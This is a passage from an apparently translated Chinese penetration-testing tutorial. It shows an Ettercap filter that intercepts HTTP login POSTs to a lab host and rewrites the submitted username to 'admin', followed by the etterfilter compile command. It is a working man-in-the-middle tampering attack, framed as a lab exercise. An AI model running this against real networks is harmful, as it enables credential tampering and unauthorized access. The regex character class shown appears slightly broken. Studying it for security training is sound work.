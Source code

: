     ```
     # If the packet goes to vulnerable_vm on TCP port 80 (HTTP) 

    if (ip.dst == '192.168.56.102'&& tcp.dst == 80) {
        # if the packet's data contains a login page 
        if (search(DATA.data, "POST")){        
            msg("POST request");        
            if (search(DATA.data, "login.php") ){
                msg("Call to login page");            
                # Will change content's length to prevent server from failing            
                pcre_regex(DATA.data, "Content-Length:\ [0-9]*","Content-Length: 41");            
                msg("Content Length modified");            
                # will replace any username by "admin" using a regular expression            
                if (pcre_regex(DATA.data, "username=[a-zAZ]*&","username=admin&"))    {
                    msg("DATA modified\n");              
                } 
                msg("Filter Ran.\n");        
            }    
        } 
    }
    ```

    > `#` 符号使注释。这个语法非常类似于 C，除了注释和一些不同。

2.  下面我们需要为 Ettercap 编译过滤器来使用它。从终端中，执行下列命令。

    ```
    etterfilter -o regex-replace-filter.ef regex-replace-filter.filter
    ```

    ![](../img/7f25dad00ca1a3a178ed5cf7d473343b.png)
